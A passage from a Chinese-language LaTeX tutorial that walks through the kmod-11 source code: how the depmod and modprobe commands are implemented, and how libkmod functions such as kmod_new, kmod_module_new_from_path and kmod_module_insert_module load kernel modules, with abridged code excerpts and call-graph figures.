    // 通过构建 hash 表的方法,查找 cfg 配置目录下的模块,添加到动态数组 array 中
    err = depmod_modules_search(&depmod);

    // 按路径名的方式创建新模块 mod
    err = kmod_module_new_from_path(depmod.ctx, path, &mod);

    // 将 mod 添加到动态数组 array 中, struct mod->deps
    err = depmod_module_add(&depmod, mod);

    // 通过 hash 表添加模块名称到动态数组 
    err = depmod_modules_build_array(&depmod);

    // 按照模块名称进行排序
    depmod_modules_sort(&depmod);

    // 加载模块,加载依赖关系,计算依赖关系
    err = depmod_load(&depmod);

    // 将 depmod 的结果输出到指定的文件中
    err = depmod_output(&depmod, out);

    // 释放相关资源包括 hash 表和 array数组
    depmod_shutdown(&depmod);

    // 释放配置信息列表
    cfg_free(&cfg);

    // 释放 kmod 库上下文
    kmod_unref(ctx);
}
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./figures/depmod.jpg}
\caption{depmod 调用层次图}
\end{figure}

do\_depmod() 的实现可以分为7个步骤

\begin{itemize}
\item
  创建模块的上下文 struct kmod\_ctx ctx
\item
  调用 depmod\_xxx 接口,完成从 /lib/modules/\texttt{uname -r}
  目录下找到所有模块
\item
  调用 kmod\_module\_new\_from\_path 接口,生成动态的 mod
\item
  调用 dep\_module\_add 和 dep\_modules\_build\_array,生成数组 array
\item
  调用 dep\_modules\_sort 接口,对 array 进行排序
\item
  调用 depmod\_output 接口,对排序后的结果,进行文件输出
\item
  释放相关的动态分配内存,结束 depmod 操作
\end{itemize}
下面根据这个核心代码,将在一层逻辑过程中调用到的函数,做一个简要的说明。
所有这些函数可以分为3类,分别形如 kmod\_xxx,depmod\_xxx, cfg\_xxx
开头的。

\textbf{kmod\_xxx}

包含 kmod\_new, kmod\_module\_new\_from\_path, kmod\_unref
这3个在之前的代码分析中介绍过。 其中用到了3个接口,分别是

\begin{itemize}
\item
  libkmod/libkmod.c
  \begin{itemize}
  \item
    kmod\_new()
  \item
    kmod\_unref()
  \end{itemize}
\item
  libkmod/libkmod-module.c
  \begin{itemize}
  \item
    kmod\_module\_new\_from\_path()
  \end{itemize}
\end{itemize}
另外,在当前文件内部,还构建了两个新的子模块 depmod 和 cfg *
tools/depmod.c - depmod\_xxx - cfg\_xxx

\textbf{depmod\_xxx}

这些函数都被声明为 static 的类型,说明仅仅只是为 depmod
命令的实现而服务的,不属于 libkmod 库要提供的接口。

\begin{itemize}
\item
  depmod 内部子模块上层接口
  \begin{itemize}
  \item
    depmod\_init
  \item
    depmod\_load\_symvers
  \item
    depmod\_load\_system\_map
  \item
    depmod\_modules\_search
  \item
    depmod\_module\_add
  \item
    depmod\_modules\_build\_array
  \item
    depmod\_modules\_sort
  \item
    depmod\_shutdown
  \end{itemize}
\end{itemize}
围绕上面这些函数,还需要调用到如下接口

{\begin{shaded}\begin{verbatim}
static int depmod_init(struct depmod *depmod, struct cfg *cfg,
                                                    struct kmod_ctx *ctx)
{
    array_init(&depmod->modules, 128);

    depmod->modules_by_uncrelpath = hash_new(512, NULL);
    depmod->modules_by_name = hash_new(512, NULL);
    depmod->symbols = hash_new(2048, (void (*)(void *))symbol_free);

    return err;
}

static int depmod_load_symvers(struct depmod *depmod, const char *filename)
{
    fp = fopen(filename, "r");
    while (fgets(line, sizeof(line), fp) != NULL) {
    ver = strtok(line, " \t");

    depmod_symbol_add(depmod, sym, crc, NULL);
    depmod_add_fake_syms(depmod);

    fclose(fp);
    return 0;
}

static int depmod_load_system_map(struct depmod *depmod, const char *filename)
{
    fp = fopen(filename, "r");
    while (fgets(line, sizeof(line), fp) != NULL) {
    p = strchr(line, ' ');
    depmod_symbol_add(depmod, p + ksymstr_len, 0, NULL);
    depmod_add_fake_syms(depmod);
    fclose(fp);
    return 0;
}

static int depmod_modules_search(struct depmod *depmod)
{
    DIR *d = opendir(depmod->cfg->dirname);
    err = depmod_modules_search_dir(depmod, d, baselen, path);
    closedir(d);
    return err;
}

static int depmod_module_add(struct depmod *depmod, struct kmod_module *kmod)
{
    modname = kmod_module_get_name(kmod);

    mod = calloc(1, sizeof(struct mod) + modnamelen);

    array_init(&mod->deps, 4);

    err = hash_add_unique(depmod->modules_by_name, mod->modname, mod);

    return 0;
}

static int depmod_modules_build_array(struct depmod *depmod)
{
    hash_iter_init(depmod->modules_by_name, &module_iter);

    while (hash_iter_next(&module_iter, NULL, &v)) {
            struct mod *mod = (struct mod *) v;
            mod->idx = depmod->modules.count;
            err = array_append(&depmod->modules, mod);
            if (err < 0)
                    return err;
    }
    return 0;
}

static void depmod_modules_sort(struct depmod *depmod)
{
    snprintf(order_file, sizeof(order_file), "%s/modules.order",
             depmod->cfg->dirname);
        fp = fopen(order_file, "r");

    while (fgets(line, sizeof(line), fp) != NULL) {
        mod = hash_find(depmod->modules_by_uncrelpath, line);
    }

    array_sort(&depmod->modules, mod_cmp);

    for (idx = 0; idx < depmod->modules.count; idx++) {
            struct mod *m = depmod->modules.array[idx];
            m->idx = idx;
    }
}

static void depmod_shutdown(struct depmod *depmod)
{
    hash_free(depmod->symbols);

    hash_free(depmod->modules_by_uncrelpath);

    hash_free(depmod->modules_by_name);

    for (i = 0; i < depmod->modules.count; i++)
            mod_free(depmod->modules.array[i]);

    array_free_array(&depmod->modules);

    kmod_unref(depmod->ctx);
}
\end{verbatim}\end{shaded}}
\textbf{cfg\_xxx}

{\begin{shaded}\begin{verbatim}
static int cfg_load(struct cfg *cfg, const char * const *cfg_paths)
{
    for (i = 0; cfg_paths[i] != NULL; i++)
            cfg_files_list(&files, &n_files, cfg_paths[i]);

    for (i = 0; i < n_files; i++) {
            struct cfg_file *f = files[i];
            cfg_file_parse(cfg, f->path);
            cfg_file_free(f);
    }
    free(files);

    if (cfg->searches == NULL)
            cfg_search_add(cfg, "updates", 0);

    return 0;
}

static void cfg_free(struct cfg *cfg)
{
    while (cfg->overrides) {
            struct cfg_override *tmp = cfg->overrides;
            cfg->overrides = cfg->overrides->next;
            cfg_override_free(tmp);
    }

    while (cfg->searches) {
            struct cfg_search *tmp = cfg->searches;
            cfg->searches = cfg->searches->next;
            cfg_search_free(tmp);
    }
}
\end{verbatim}\end{shaded}}
在 depmod.c 文件的实现中,depmod\_output 负责最后各类文件的输出功能。

{\begin{shaded}\begin{verbatim}
2161 static int depmod_output(struct depmod *depmod, FILE *out)
2162 {
2163         static const struct depfile {
2164                 const char *name;
2165                 int (*cb)(struct depmod *depmod, FILE *out);
2166         } *itr, depfiles[] = {
2167                 { "modules.dep", output_deps },
2168                 { "modules.dep.bin", output_deps_bin },
2169                 { "modules.alias", output_aliases },
2170                 { "modules.alias.bin", output_aliases_bin },
2171                 { "modules.softdep", output_softdeps },
2172                 { "modules.symbols", output_symbols },
2173                 { "modules.symbols.bin", output_symbols_bin },
2174                 { "modules.builtin.bin", output_builtin_bin },
2175                 { "modules.devname", output_devname },
2176                 { }
2177         };
\end{verbatim}\end{shaded}}
其中输出到 /lib/modules/3.2.0-29-generic-pae/modules.dep
文件的输出函数是 output\_deps 通过修改如下 fprintf(out, \ldots{})
函数,增添输出到标准输出 stdout 的 fprintf(stdout, \ldots{})
则可以在屏幕上看到运行 depmod 命令时候的全部输出结果,这个结果和
modules.dep 文件中的内容是完全一样的。

这里用的几个文件,含义和用法如下: * modules.alias : 模块别名定义.
模块加载工具使用它来加载相应的模块. * modules.dep :
定义了模块间的依赖关系. * modules.symbols : 指定符号属于哪个模块.

{\begin{shaded}\begin{verbatim}
1790 static int output_deps(struct depmod *depmod, FILE *out)
1791 {
1792         size_t i;
1793 
1794         for (i = 0; i < depmod->modules.count; i++) {
1795                 const struct mod **deps, *mod = depmod->modules.array[i];
...
1804                 fprintf(out, "%s:", p);
1805                 fprintf(stdout, "%s:", p);
...
1824                         fprintf(out, " %s", mod_get_compressed_path(d));
1825                         fprintf(stdout, " %s", mod_get_compressed_path(d));
...
1828         end:
1829                 putc('\n', out);
1830                 putc('\n', stdout);
... 
1834 }
\end{verbatim}\end{shaded}}
总的来说,depmod 命令的实现,并没有太多依赖于 libkmod
库所提供的接口,而是自己内部实现了2个子模块来完成。 其中 depmod\_xxx
模块主要完成分析模块文件之间关系,形成依赖列表,并将这个依赖列表写入到所需要的文件中去。
cfg\_xxx 模块主要完成对 config 配置文件的分析,

\subsection{modprobe 命令实现流程}

\textbf{do\_modprobe() 核心代码分析}

{\begin{shaded}\begin{verbatim}
do_modprobe(int argc, char *argv[])
{
    // 打开日志文件, 调用了系统的 openlog()
    log_open(use_syslog);

    snprintf(dirname_buf, sizeof(dirname_buf), "%s/lib/modules/%s", root, kversion);
    dirname = dirname_buf;

    // 创建 kmod 库上下文
    ctx = kmod_new(dirname, config_paths);

    // 设置 kmod log 日志输出的优先级
    log_setup_kmod_log(ctx, verbose);

    // 加载所有的索引,以便提高后继操作速度
    kmod_load_resources(ctx);

    // 显示配置信息,配合 modprobe -c 参数使用
    err = show_config(ctx); 

    // 显示模块符号信息,配合 modprobe --show-modversions 参数使用
    err = show_modversions(ctx, args[0]);

    //  根据传入的 argv[] 参数,依次插入 nargs 个模块
    err = insmod_all(ctx, args, nargs);

    //  根据传入的 argv[] 参数,依次卸载 nargs 个模块
    err = rmmod_all(ctx, args, nargs); 
    err = options_from_array(args, nargs, &opts);

    // 完成模块的 probe 方式插入操作,是一个内部的static函数
    err = insmod(ctx, args[0], opts);

    // 释放 kmod 库上下文
    kmod_unref(ctx);

    // 关闭日志文件,调用 closelog()
    log_close();
}
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./figures/modprobe.jpg}
\caption{modprobe 调用层次图}
\end{figure}

从上面的代码分析可以看出,modprobe 主要是依靠 insmod\_all 和 insmod
两个子函数来完成加载内核模块的。 而 insmod\_all 这个函数其实也是靠一个
for 循环来调用 insmod 完成加载全部模块的操作。 因此只要分析清楚 insmod
函数,就能够理解整个 modprobe 函数的实现原理。

\subsubsection{insmod\_all()}

{\begin{shaded}\begin{verbatim}
static int insmod_all(struct kmod_ctx *ctx, char **args, int nargs)
{
    // 根据参数列表,调用多次 insmod 函数完成 insmod_all
        for (i = 0; i < nargs; i++) 
        err = insmod(ctx, args[i], NULL);

    return err;
}
\end{verbatim}\end{shaded}}
\subsubsection{insmod()}

这里所实现的 insmod 函数,和之前的 insmod
命令不同,这个函数能够实现对当前模块所依赖的所有模块的 probe 方式加载。
其实也就是实现 modprobe
命令的核心函数。其中所用到的实现加载功能的核心函数是
kmod\_module\_probe\_insert\_module 。

对比一下 insmod 命令当时的实现代码,其用到的核心函数是
kmod\_module\_insert\_module ,这个函数只能加载一个模块,
不能实现对所有依赖关系模块的加载,因此功能上来说,kmod\_module\_probe\_insert\_module
需要调用 kmod\_module\_insert\_module 来完成真正的加载。
总的来说,前者的完成需要实现一个依赖关系的列表,然后通过循环调用多次后者,才能完成
probe 方式加载。

{\begin{shaded}\begin{verbatim}
static int insmod(struct kmod_ctx *ctx, const char *alias,
                                            const char *extra_options)
{
    struct kmod_list *l, *list = NULL;
    int err, flags = 0;

    void (*show)(struct kmod_module *m, bool install,
                                            const char *options) = NULL;

    //  从文件别名 alias 创建 kmod module list
    err = kmod_module_new_from_lookup(ctx, alias, &list);

    kmod_list_foreach(l, list) {
        // 从链表节点的数据区域 获得 kmod module 指针
            struct kmod_module *mod = kmod_module_get_module(l);

        // 根据依赖关系插入模块,如果有多个依赖,则会全部插入
            err = kmod_module_probe_insert_module(mod, flags,
                                    extra_options, NULL, NULL, show);
        // 释放当前模块
            kmod_module_unref(mod);
    }

    // 删除 kmod list 链表中的每一个节点
    kmod_module_unref_list(list);
    return err;
}
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./figures/modprobe-insmod.jpg}
\caption{modprobe 实现内部 insmod 调用层次图}
\end{figure}

\begin{figure}[htbp]
\centering

\includegraphics{./figures/insmod_all.jpg}
\caption{insmod\_all 函数调用层次图}
\end{figure}

从上面的代码分析可以看出,insmod 函数是依靠调用
kmod\_module\_probe\_insert\_module() 来完成模块加载的。 为什么这里的
insmod 没有调用之前分析过的 kmod\_module\_insert\_module() 来实现呢?
是因为 kmod\_module\_insert\_module() 只负责插入当前这个 .ko
内核模块,并不负责检查依赖关系。 而这里的 insmod 是需要根据当前 .ko
的依赖关系列表,决定要把多少个 .ko 依次一起插入进来。 所以
kmod\_module\_probe\_insert\_module() 是可以完成根据依赖关系插入模块的
libkmod 中的重要接口。

当然这两个函数之间也是有相互关系的,表现为
kmod\_module\_probe\_insert\_module() 函数会调用
kmod\_module\_insert\_module(), 而在此之前,还需要通过
kmod\_module\_get\_probe\_list() 函数来得到一个 probe\_list
也就是加载模块列表。

\begin{figure}[htbp]
\centering

\includegraphics{./figures/kmod_module_probe_insert_module.jpg}
\caption{kmod\_module\_probe\_insert\_module 调用层次图}
\end{figure}

\section{函数接口分析}

\subsection{kmod\_new() 核心代码分析}

kmod\_new 函数通过调用 calloc 动态内存分配一个 struct kmod\_ctx
结构体,并将获得的指针作为返回值。 在这个 ctx
结构体里面,有3个重要的成员变量需要赋值,dirname ,config 和
modules\_by\_name 分别对应着3个重要的函数接口。

\begin{itemize}
\item
  get\_kernel\_release
\item
  kmod\_config\_new
\item
  hash\_new
\end{itemize}
\begin{figure}[htbp]
\centering

\includegraphics{./figures/kmod_new.jpg}
\caption{kmod\_new 调用层次图}
\end{figure}

{\begin{shaded}\begin{verbatim}
kmod_ctx *kmod_new(char *dirname, char *config_paths)
{
    // 分配空间给 ctx 指针
    ctx = calloc(1, sizeof(struct kmod_ctx));

    // 得到模块所在的路径名称
    ctx->dirname = get_kernel_release(dirname);

    // 通过传入2个参数 ctx, config_paths ,传出 ctx->config 指针
    err = kmod_config_new(ctx, &ctx->config, config_paths);

    // 调用 hash_new 分配一个 struct hash 指针
    ctx->modules_by_name = hash_new(KMOD_HASH_SIZE, NULL);

    return ctx;
}
\end{verbatim}\end{shaded}}
\subsection{kmod\_unref() 核心代码分析}

kmod\_unref 是 kmod\_new
的反操作,一般都是配套使用。该函数的主要功能是释放通过 callac 和 xxx\_new
函数分配的空间。
和之前分配空间的函数相对应的,有2个释放空间的函数。另外还调用了
kmod\_unload\_resources 来释放相关资源。

\begin{itemize}
\item
  hash\_free
\item
  kmod\_config\_free
\end{itemize}
\begin{figure}[htbp]
\centering

\includegraphics{./figures/kmod_unref.jpg}
\caption{kmod\_unref 调用层次图}
\end{figure}

{\begin{shaded}\begin{verbatim}
kmod_ctx *kmod_unref(kmod_ctx *ctx)
{
    // 释放 ctx 所占用的资源
    kmod_unload_resources(ctx);

    // 释放 struct hash * ctx->modules_by_name 指针内存空间 
    hash_free(ctx->modules_by_name);

    // 释放 struct kmod_config * ctx->config 指针内存空间 
    kmod_config_free(ctx->config);

    // 释放 struct kmod_ctx * ctx 指针内存空间 
    free(ctx);

    return NULL;
}
\end{verbatim}\end{shaded}}
\subsection{kmod\_module\_new\_from\_path() 核心代码分析}

kmod\_module\_new\_from\_path 首先将传进来的 path 绝对路径转换为 modname
也就是去掉路径信息,然后进行正规化操作。 modname\_normalize
正规化函数的实现,主要是将文件名称中的 `-' 转换成下划线 `\_'
,同时名字中不允许出现小数点 '.'。

\begin{figure}[htbp]
\centering

\includegraphics{./figures/kmod_module_new_from_path.jpg}
\caption{kmod\_module\_new\_from\_path 调用层次图}
\end{figure}

{\begin{shaded}\begin{verbatim}
int kmod_module_new_from_path(kmod_ctx *ctx, char *path, kmod_module **mod)
{
    // 从路径名称中分离出模块名称,例如 ./tools/insmod ../hello-module/hello.ko
    //  name='hello' path='/home/akaedu/Github/test-kmod-11/kmod-11/../hello-module/hello.ko'
    path_to_modname(path, name, &namelen);

    // 从 name 名称中得到指向该模块的指针 m
    m = kmod_pool_get_module(ctx, name);

    // 增加该模块的引用计数
    kmod_module_ref(m);

    // 根据 name 创建一个新的模块
    err = kmod_module_new(ctx, name, name, namelen, NULL, 0, &m); 

    // 将模块指针 m 作为返回值通过 *mod 返回
    *mod = m;
    return 0;
}

157 // 详见 kmod-11/libkmod/libkmod-util.c 
158 char *path_to_modname(const char *path, char buf[PATH_MAX], size_t *len)
159 {
160         char *modname;
161 
162         modname = basename(path);
163         if (modname == NULL || modname[0] == '\0')
164                 return NULL;
165 
166         return modname_normalize(modname, buf, len);
167 }

133 // 详见 kmod-11/libkmod/libkmod-util.c 
134 inline char *modname_normalize(const char *modname, char buf[PATH_MAX],
135                                                                 size_t *len)
136 {
137         size_t s;
138 
139         for (s = 0; s < PATH_MAX - 1; s++) {
140                 const char c = modname[s];
141                 if (c == '-')
142                         buf[s] = '_';
143                 else if (c == '\0' || c == '.')
144                         break;
145                 else
146                         buf[s] = c;
147         }
148 
149         buf[s] = '\0';
150 
151         if (len)
152                 *len = s;
153 
154         return buf;
155 }
\end{verbatim}\end{shaded}}
\subsection{kmod\_module\_new\_from\_name() 核心代码分析}

kmod\_module\_new\_from\_name 是首先把模块的名字进行正规化,然后调用
kmod\_module\_new 来完成最终的操作。

\begin{figure}[htbp]
\centering

\includegraphics{./figures/kmod_module_new_from_name.jpg}
\caption{kmod\_module\_new\_from\_name 调用层次图}
\end{figure}

{\begin{shaded}\begin{verbatim}
KMOD_EXPORT int kmod_module_new_from_name(struct kmod_ctx *ctx,
                                            const char *name,
                                            struct kmod_module **mod)
{
    size_t namelen;
    char name_norm[PATH_MAX];

    if (ctx == NULL || name == NULL || mod == NULL)
            return -ENOENT;

    // 模块名称的正规化操作
    modname_normalize(name, name_norm, &namelen);

    // 最终还是依靠调用 kmod_module_new 完成模块的创建操作
    return kmod_module_new(ctx, name_norm, name_norm, namelen, NULL, 0, mod);
}
\end{verbatim}\end{shaded}}
\subsection{kmod\_module\_new() 核心代码分析}

kmod\_module\_new 函数是通过传入的 key,name 和 alias 以及 ctx 指针,通过
malloc 生成一个 kmod\_module ,并将指针作为传出参数赋值给 *mod。
其中涉及到的几个函数调用接口的实现主要都在 ./kmod-11/libkmod/libkmod.c
文件中,代码实现的主要思路如下:

\begin{itemize}
\item
  kmod\_pool\_get\_module(ctx, key)
  \begin{itemize}
  \item
    hash\_find(ctx-\textgreater{}modules\_by\_name, key)
  \end{itemize}
\item
  kmod\_pool\_add\_module(ctx, m, m-\textgreater{}hashkey)
  \begin{itemize}
  \item
    hash\_add(ctx-\textgreater{}modules\_by\_name, m,
    m-\textgreater{}hashkey)
  \end{itemize}
\item
  kmod\_ref(ctx)
  \begin{itemize}
  \item
    ctx-\textgreater{}refcount++
  \end{itemize}
\end{itemize}
在这里就不详细论述,感兴趣的可以再往深入的地方看下去。

\begin{figure}[htbp]
\centering

\includegraphics{./figures/kmod_module_new.jpg}
\caption{kmod\_module\_new 调用层次图}
\end{figure}

{\begin{shaded}\begin{verbatim}
static int kmod_module_new(struct kmod_ctx *ctx, const char *key,
                            const char *name, size_t namelen,
                            const char *alias, size_t aliaslen,
                            struct kmod_module **mod)
{
    struct kmod_module *m;
    size_t keylen;

    // 从 kmod pool 中通过 hash_find 获取模块指针 m
    m = kmod_pool_get_module(ctx, key);
    *mod = kmod_module_ref(m);

    // 通过 malloc 分配一个 struct module 结构体
    m = malloc(sizeof(*m) + (alias == NULL ? 1 : 2) * (keylen + 1));
    m->ctx = kmod_ref(ctx);
    m->name = (char *)m + sizeof(*m);
    memcpy(m->name, key, keylen + 1);

    m->name[namelen] = '\0';
    m->alias = m->name + namelen + 1;
    m->hashkey = m->name + keylen + 1;
    memcpy(m->hashkey, key, keylen + 1);

    // 设置当前模块 m 的引用计数为 1
    m->refcount = 1;

    // 在 kmod 池中通过 hash_add 添加一个键值为 m-hashkey 的模块
    kmod_pool_add_module(ctx, m, m->hashkey);
    *mod = m;

    return 0;
}
\end{verbatim}\end{shaded}}
\subsection{kmod\_module\_insert\_module() 核心代码分析}

该函数是实现 insmod
命令最核心的函数,实现代码的逻辑结构非常清晰。主要涉及到了2个核心模块
kmod\_file, kmod\_elf
,也正是在这个函数的实现中,简单而又不失重要性的展示了 命令
-\textgreater{} 库 -\textgreater{} 系统调用
这3个层次上的相互调用关系,程序设计的分层艺术也非常完美的体现在这个函数中。

\begin{figure}[htbp]
\centering

\includegraphics{./figures/kmod_module_insert_module.jpg}
\caption{kmod\_module\_insert\_module 调用层次图}
\end{figure}

{\begin{shaded}\begin{verbatim}
int kmod_module_insert_module(kmod_module *mod, int flags, char *options)
{
    // 从模块指针获得模块的完整路径名
    path = kmod_module_get_path(mod);

    // 通过模块的上下文和完整的路径,打开这个文件, 将文件内容读出到 ctx 结构体中
    file = kmod_file_open(mod->ctx, path);

    // 获得文件大小
    size = kmod_file_get_size(file);

    // 获得文件内容指针 memory
    mem = kmod_file_get_contents(file);

    // 创建一个 struct kmod_elf 结构体并将相关信息填入结构体
    elf = kmod_elf_new(mem, size);

    // 对 __versions 进行 strip,去掉有关版本版本信息,此项操作针对 -force 选项
    kmod_elf_strip_section(elf, "__versions");

    // 获得 elf 文件的 memory 指针
    mem = kmod_elf_get_memory(elf);

    // 进行系统调用 init_module 完成真正的模块插入
    init_module(mem, size, args);

    // 释放之前分配的内存资源
    kmod_elf_unref(elf);
    kmod_file_unref(file);
}
\end{verbatim}\end{shaded}}
\subsection{kmod\_module\_remove\_module() 核心代码分析}

该函数是实现 rmmod 的最主要的函数,它的实现也很简单,就是调用
delete\_module 系统调用。

{\begin{shaded}\begin{verbatim}
int kmod_module_remove_module(kmod_module *mod, int flags)
{
    err = delete_module(mod->name, flags);

    return err;
}
\end{verbatim}\end{shaded}}
\subsection{init\_module() 核心代码分析}

在 kmod\_module\_insert\_module 函数中调用的 init\_module
系统调用,将会在进入到内核之后完成真正的加载操作。 用户空间的系统调用叫
